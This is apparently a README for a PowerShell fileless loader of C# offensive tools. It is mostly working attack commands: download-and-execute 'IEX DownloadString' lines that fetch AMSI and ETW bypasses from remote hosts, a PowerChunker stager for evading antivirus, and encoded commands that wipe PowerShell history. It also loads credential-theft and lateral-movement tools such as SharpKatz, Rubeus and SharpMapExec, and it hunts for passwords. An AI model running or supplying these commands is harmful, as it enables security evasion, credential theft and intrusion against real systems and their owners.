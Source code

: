 # PowerShell exec-assembly remote loader

## There is a very useful tool to wrap CSharp assemlby tools within PowerShell can be loaded remotely:

https://github.com/S3cur3Th1sSh1t/PowerSharpPack

## However, sometimes I will need to load some uncommon CSharp tools, this one is used to load CSharp assembly EXE directly in memory (fileless). it will provide a better AV bypass (need AMSI bypass first)

## Regarding to AMSI bypass, must read these first:
https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell


## A golang version AMSI bypass using direct syscalls (improved and much more chance to be success)
https://github.com/timwhitez/Doge-AMSI-patch//

A compiled version `dogeamsi.exe` is included in this repo for convinence. 
This one is tested to bypass [**sophos AMSI protection**](https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/) successfully.

## To bring back a detected AMSI bypass script alive:
https://github.com/icyguider/PowerChunker

Run the following command to generate amsibypass stager and host it:
```
┌──(root💀TW-PenTestBox)-[/opt/PowerChunker]
└─# ./PowerChunker.py bypass.ps1 10.0.0.186 --serve

/\     __    PowerChunker.py!!!            
  \ .-':::.         (by @icyguider)                       
   \ :::::|\                              
  |,\:::'/  \     why is there hamburger? 
  `.:::-'    \                             
    `-.       \         ___                
       `-.     |     .-'';:::.              
          `-.-'     / ',''.;;;\            
                   |  ','','.''|            
              AsH  |\  ' ,',' /'           
                   `.`-.___.-;'             
                     `--._.-'                                                           

[+] Powershell script has been split into 10 files...
[!] PowerChunker Stager written to: chunker.ps1
    Execute like so: iex (iwr -UseBasicParsing http://10.0.0.186/chunker.ps1)

┌──(root💀TW-PenTestBox)-[/opt/PowerChunker]
└─# python3 -m http.server 80
```

## To block writes history log
```
# Neuter Writes to History Log:
Set-PSReadlineOption -HistorySaveStyle SaveNothing

# Encoded version of blocking writes to history
[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('UwBlAHQALQBQAFMAUgBlAGEAZABsAGkAbgBlAE8AcAB0AGkAbwBuACAALQBIAGkAcwB0AG8AcgB5AFMAYQB2AGUAUwB0AHkAbABlACAAUwBhAHYAZQBOAG8AdABoAGkAbgBnAA==')) | IEX

# Delete history logs
rm (Get-PSReadlineOption).HistorySavePath
```

Ref:
[1] https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560


### Usage:

```
## ETW bypass and AMSI bypass all-in-one, sometimes amsi3.txt been detected and blocked
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/etw.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));

## If amsi3.txt has been blocked, then try the following AMSI bypass 
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi1_1.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi2.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/etw.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));


## Load SharpKatz
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/SharpKatz.exe -Command "msv"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpKatz.exe?raw=true -Command "msv"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpKatz.exe?raw=true -Command "logonpassword"

## Load winPEAS
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/winPEAS.exe -Command "notcolor quiet log"
Invoke-LoadAssembly -AssemblyUrl https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/Dotfuscated/any/winPEASany.exe?raw=true -Command "notcolor quiet"

## Load Rubeus
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/Rubeus.exe -Command "hash /password:test"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Rubeus.exe?raw=true -Command "hash /password:test"
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Rubeus.exe?raw=true -Command "hash /password:test"

## Load SharpEDRChecker
Invoke-LoadAssembly -AssemblyUrl http://10.0.0.144:8000/SharpEDRChecker.exe -Command ""
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SharpEDRChecker.exe?raw=true

## Load SauronEye
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/SauronEye.exe?raw=true -Command "--directories c:\ --filetypes .txt -contents --keywords password pass*"

## Load Certify
Invoke-LoadAssembly -AssemblyUrl https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Certify.exe?raw=true -Command "find /vulnerable"

## Load EDD
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/EDD.exe?raw=true -Command "-h"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/EDD_any.exe?raw=true -Command "-h"


### After fix the reflectedType is not public issue (Defender not detected):
## Load SharpUp
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/SharpUpNew.exe -Command "audit"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpUp.exe?raw=true -Command "audit"

## Load Seatbelt
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/Seatbelt.exe?raw=true -Command "-group=user -outputfile=C:\\Temp\\out.txt"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/Seatbelt.exe?raw=true -Command "-group=all -full -outputfile=C:\Temp\out.txt"

## Load SharpLAPS
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpLAPS.exe?raw=true -Command "-h"

## Load SharpMapExec
Invoke-LoadAssembly -AssemblyUrl http://10.0.0.144:81/SharpMapExec.exe -Command "ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpMapExec.exe?raw=true -Command "ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET"

## Load SharpShares
Invoke-LoadAssembly -AssemblyUrl http://10.0.0.144:81/SharpShares.exe -Command "-h"
Invoke-LoadAssembly -AssemblyUrl https://github.com/F4l13n5n0w/PowerSharpLoader/blob/master/x64/SharpShares.exe?raw=true -Command "-h"

```